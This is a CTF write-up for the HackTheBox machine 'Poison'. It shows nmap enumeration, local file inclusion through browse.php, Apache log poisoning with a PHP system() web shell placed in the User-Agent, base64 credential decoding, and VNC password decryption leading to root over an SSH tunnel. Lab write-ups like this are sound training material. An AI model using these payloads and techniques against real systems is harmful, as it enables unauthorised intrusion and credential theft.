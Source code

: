 
```
22/tcp open  ssh
80/tcp open  http
Enumerating open ports...
Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-04 14:29 EDT
Nmap scan report for poison.htb (10.10.10.84)
Host is up (0.041s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2 (FreeBSD 20161230; protocol 2.0)
| ssh-hostkey: 
|   2048 e3:3b:7d:3c:8f:4b:8c:f9:cd:7f:d2:3a:ce:2d:ff:bb (RSA)
|   256 4c:e8:c6:02:bd:fc:83:ff:c9:80:01:54:7d:22:81:72 (ECDSA)
|_  256 0b:8f:d5:71:85:90:13:85:61:8b:eb:34:13:5f:94:3b (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((FreeBSD) PHP/5.6.32)
|_http-server-header: Apache/2.4.29 (FreeBSD) PHP/5.6.32
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
```

# foothold solution 1
- /browse.php?file=info.php
```
FreeBSD Poison 11.1-RELEASE FreeBSD 11.1-RELEASE #0 r321309: Fri Jul 21 02:08:28 UTC 2017 root@releng2.nyi.freebsd.org:/usr/obj/usr/src/sys/GENERIC amd64
```
- browse.php?file=listfiles.php
```
Array ( [0] => . [1] => .. [2] => browse.php [3] => index.php [4] => info.php [5] => ini.php [6] => listfiles.php [7] => phpinfo.php [8] => pwdbackup.txt ) 
```
let check pwdbackup.txt out, it looks juicy
```
This password is secure, it's encoded atleast 13 times.. what could go wrong really.. Vm0wd2QyUXlVWGxWV0d4WFlURndVRlpzWkZOalJsWjBUVlpPV0ZKc2JETlhhMk0xVmpKS1IySkVU bGhoTVVwVVZtcEdZV015U2tWVQpiR2hvVFZWd1ZWWnRjRWRUTWxKSVZtdGtXQXBpUm5CUFdWZDBS bVZHV25SalJYUlVUVlUxU1ZadGRGZFZaM0JwVmxad1dWWnRNVFJqCk1EQjRXa1prWVZKR1NsVlVW M040VGtaa2NtRkdaR2hWV0VKVVdXeGFTMVZHWkZoTlZGSlRDazFFUWpSV01qVlRZVEZLYzJOSVRs WmkKV0doNlZHeGFZVk5IVWtsVWJXaFdWMFZLVlZkWGVHRlRNbEY0VjI1U2ExSXdXbUZEYkZwelYy eG9XR0V4Y0hKWFZscExVakZPZEZKcwpaR2dLWVRCWk1GWkhkR0ZaVms1R1RsWmtZVkl5YUZkV01G WkxWbFprV0dWSFJsUk5WbkJZVmpKMGExWnRSWHBWYmtKRVlYcEdlVmxyClVsTldNREZ4Vm10NFYw MXVUak5hVm1SSFVqRldjd3BqUjJ0TFZXMDFRMkl4WkhOYVJGSlhUV3hLUjFSc1dtdFpWa2w1WVVa T1YwMUcKV2t4V2JGcHJWMGRXU0dSSGJFNWlSWEEyVmpKMFlXRXhXblJTV0hCV1ltczFSVmxzVm5k WFJsbDVDbVJIT1ZkTlJFWjRWbTEwTkZkRwpXbk5qUlhoV1lXdGFVRmw2UmxkamQzQlhZa2RPVEZk WGRHOVJiVlp6VjI1U2FsSlhVbGRVVmxwelRrWlplVTVWT1ZwV2EydzFXVlZhCmExWXdNVWNLVjJ0 NFYySkdjR2hhUlZWNFZsWkdkR1JGTldoTmJtTjNWbXBLTUdJeFVYaGlSbVJWWVRKb1YxbHJWVEZT Vm14elZteHcKVG1KR2NEQkRiVlpJVDFaa2FWWllRa3BYVmxadlpERlpkd3BOV0VaVFlrZG9hRlZz WkZOWFJsWnhVbXM1YW1RelFtaFZiVEZQVkVaawpXR1ZHV210TmJFWTBWakowVjFVeVNraFZiRnBW VmpOU00xcFhlRmRYUjFaSFdrWldhVkpZUW1GV2EyUXdDazVHU2tkalJGbExWRlZTCmMxSkdjRFpO
Ukd4RVdub3dPVU5uUFQwSwo= 
```
let decode it by using cyberchef using python. I create python script just for fun. and here is the decoded credential
```console
kurohat$ python3 b64decode.py 
b'Charix!2#4%6&8(0'
```
ssh charix:Charix!2#4%6&8(0 and run linpeas.sh
# foothold solution 2
After I rooted poison, I wounder why this box call `poison` when it didnt even involve poisoning of any type... So I when back to the first step and poke poison a bit more...

I know that there are many type of poisoning tachnic such as arp poisoning, log poisoning. It this case, it cant be arp poisoning since we are not hacking network. So it leave us to log poisoning. For log poisoning to work, we need to be able to read log. Let check if we have Local File Inclusion (LFI) on poison.


let visit `browse.php?file=../../../../../etc/passwd` hopefully it will give use `/etc/passwd`. Bingo !!! it works. so now let try to access apache log file for BSD. After goolging, I found out that appache log is locate at `/var/log/httpd-access.log`, so lets try to request for the log file. `browse.php?file=../../../../../var/log/httpd-access.log`

It works, as you can se here
```
[06/Oct/2020:21:40:03 +0200] "GET /browse.php?file=../../../../../etc/passwd HTTP/1.1" 200 1894 "-" 
"Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0" 
```
As you can see, User-agent is save in the log. The plan is we gonna poison the apache log by changing User-agent to something malicious such as, php code, which get be execute when we try to access the log file via LFI. Now open burp and put the following php code as User-agent. Read more about it [here](https://www.hackingarticles.in/apache-log-poisoning-through-lfi/)
```
<?php system($_GET['cmd']); ?>
```
now visit `browse.php?file=../../../../../var/log/httpd-access.log`
```
[06/Oct/2020:22:05:47 +0200] "GET /browse.php?file=info.php HTTP/1.1" 200 157 "-" "
Warning: system(): Cannot execute a blank command in /var/log/httpd-access.log on line 10
" 
```

okey it work, now let try to request things such as, ls -la , cat, by visiting `httpd-access.log&cmd=ls -a` 

so let get the **pwdbackup.txt** by visiting `/browse.php?file=../../../../../var/log/httpd-access.log&cmd=cat%20pwdbackup.txt`
```
06/Oct/2020:22:05:47 +0200] "GET /browse.php?file=info.php HTTP/1.1" 200 157 "-" "This password is secure, it's encoded atleast 13 times.. what could go wrong really.. Vm0wd2QyUXlVWGxWV0d4WFlURndVRlpzWkZOalJsWjBUVlpPV0ZKc2JETlhhMk0xVmpKS1IySkVU bGhoTVVwVVZtcEdZV015U2tWVQpiR2hvVFZWd1ZWWnRjRWRUTWxKSVZtdGtXQXBpUm5CUFdWZDBS bVZHV25SalJYUlVUVlUxU1ZadGRGZFZaM0JwVmxad1dWWnRNVFJqCk1EQjRXa1prWVZKR1NsVlVW M040VGtaa2NtRkdaR2hWV0VKVVdXeGFTMVZHWkZoTlZGSlRDazFFUWpSV01qVlRZVEZLYzJOSVRs WmkKV0doNlZHeGFZVk5IVWtsVWJXaFdWMFZLVlZkWGVHRlRNbEY0VjI1U2ExSXdXbUZEYkZwelYy eG9XR0V4Y0hKWFZscExVakZPZEZKcwpaR2dLWVRCWk1GWkhkR0ZaVms1R1RsWmtZVkl5YUZkV01G WkxWbFprV0dWSFJsUk5WbkJZVmpKMGExWnRSWHBWYmtKRVlYcEdlVmxyClVsTldNREZ4Vm10NFYw MXVUak5hVm1SSFVqRldjd3BqUjJ0TFZXMDFRMkl4WkhOYVJGSlhUV3hLUjFSc1dtdFpWa2w1WVVa T1YwMUcKV2t4V2JGcHJWMGRXU0dSSGJFNWlSWEEyVmpKMFlXRXhXblJTV0hCV1ltczFSVmxzVm5k WFJsbDVDbVJIT1ZkTlJFWjRWbTEwTkZkRwpXbk5qUlhoV1lXdGFVRmw2UmxkamQzQlhZa2RPVEZk WGRHOVJiVlp6VjI1U2FsSlhVbGRVVmxwelRrWlplVTVWT1ZwV2EydzFXVlZhCmExWXdNVWNLVjJ0 NFYySkdjR2hhUlZWNFZsWkdkR1JGTldoTmJtTjNWbXBLTUdJeFVYaGlSbVJWWVRKb1YxbHJWVEZT Vm14elZteHcKVG1KR2NEQkRiVlpJVDFaa2FWWllRa3BYVmxadlpERlpkd3BOV0VaVFlrZG9hRlZz WkZOWFJsWnhVbXM1YW1RelFtaFZiVEZQVkVaawpXR1ZHV210TmJFWTBWakowVjFVeVNraFZiRnBW VmpOU00xcFhlRmRYUjFaSFdrWldhVkpZUW1GV2EyUXdDazVHU2tkalJGbExWRlZTCmMxSkdjRFpO Ukd4RVdub3dPVU5uUFQwSwo=
```

# root
interesting files
```
/home/charix/user.txt
/home/charix/secret.zip
```
active ports
```
[+] Active Ports
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#open-ports
tcp4       0      0 localhost.smtp         *.*                    LISTEN
tcp4       0      0 *.http                 *.*                    LISTEN
tcp6       0      0 *.http                 *.*                    LISTEN
tcp4       0      0 *.ssh                  *.*                    LISTEN
tcp6       0      0 *.ssh                  *.*                    LISTEN
tcp4       0      0 localhost.5801         *.*                    LISTEN
tcp4       0      0 localhost.5901         *.*                    LISTEN
```
2 open ports, 5801 and 5901

so let do ssh port forwarding, I learn from ippsec that you can do something so call SSH "Konami Code" (SSH Control Sequences) link [here](https://www.sans.org/blog/using-the-ssh-konami-code-ssh-control-sequences/)


I use proxyfroxy to forward the web traffic to the victim 5801 and 5901 but it didnt work, so I end up searching for more clue, and then I found this link from [hacktricks](https://book.hacktricks.xyz/pentesting/pentesting-vnc). it seem like `VNC` defualt port are 5800, 5801, 5900, 5901. let verify by runing this command
```console
charix@Poison:~ % ps -aux | grep vnc
root     529   0.0  0.9  23620  8900 v0- I    20:17     0:00.03 Xvnc :1 -desktop X -httpd /usr/local/share/tightvnc/classes -auth /root/
charix 15832   0.0  0.2  14828  2372  1  S+   22:54     0:00.00 grep vnc
```
BINGO, it is runing VNC, so let follow hacktricks and find out more what


so I assume that the secret.zip should be the a password or something, since I can open on the remote server, I use scp to copy it and crack it with `zip2john`, Luckly I tried it with charix's password and it works!! 
```console
kali@kali:~/HTB/poison$ scp charix@poison.htb:/home/charix/secret.zip secret.zip
Password for charix@Poison:
secret.zip                                                               100%  166     4.1KB/s   00:00    
kali@kali:~/HTB/poison$ unzip secret.zip 
Archive:  secret.zip
[secret.zip] secret password: 
 extracting: secret  
```
seem like it is a encrypted password, Hacktrick mentioned how to decrypt it by using https://github.com/jeroennijhof/vncpwd 
```console
kali@kali:~/HTB/poison$ git clone https://github.com/jeroennijhof/vncpwd.git
Cloning into 'vncpwd'...
remote: Enumerating objects: 28, done.
remote: Total 28 (delta 0), reused 0 (delta 0), pack-reused 28
Unpacking objects: 100% (28/28), 22.13 KiB | 70.00 KiB/s, done.
kali@kali:~/HTB/poison$ cd vncpwd/
kali@kali:~/HTB/poison/vncpwd$ make
gcc -Wall -g -o vncpwd vncpwd.c d3des.c
kali@kali:~/HTB/poison/vncpwd$ ls
d3des.c  d3des.h  LICENSE  Makefile  README  vncpwd  vncpwd.c
kali@kali:~/HTB/poison/vncpwd$ ./vncpwd ../secret
Password: VNCP@$$!
```
we will use proxychain to pass our vnc traffic to posion:5901. let start by checking proxychain configureation
```console
kali@kali:~/HTB/poison/vncpwd$ tail /etc/proxychains.conf
#
#       proxy types: http, socks4, socks5
#        ( auth types supported: "basic"-http  "user/pass"-socks )
#
[ProxyList]
# add proxy here ...
# meanwile
# defaults set to "tor"
socks4 	127.0.0.1 9050
```
defualt at `9050` okey, back to charix ssh. we change port forwarding to 9050 instead. now let use `vncviewer` to gain root
```console
kali@kali:~/HTB/poison/vncpwd$ proxychains vncviewer 127.0.0.1:5901
ProxyChains-3.1 (http://proxychains.sf.net)
|S-chain|-<>-127.0.0.1:9050-<><>-127.0.0.1:5901-<><>-OK
Connected to RFB server, using protocol version 3.8
Enabling TightVNC protocol extensions
Performing standard VNC authentication
Password: 
Authentication successful
Desktop name "root's X desktop (Poison:1)"
VNC server default format:
  32 bits per pixel.
  Least significant byte first in each pixel.
  True colour: max red 255 green 255 blue 255, shift red 16 green 8 blue 0
Using default colormap which is TrueColor.  Pixel format:
  32 bits per pixel.
  Least significant byte first in each pixel.
  True colour: max red 255 green 255 blue 255, shift red 16 green 8 blue 0
Same machine: preferring raw encoding
```

Boom we rooted the box!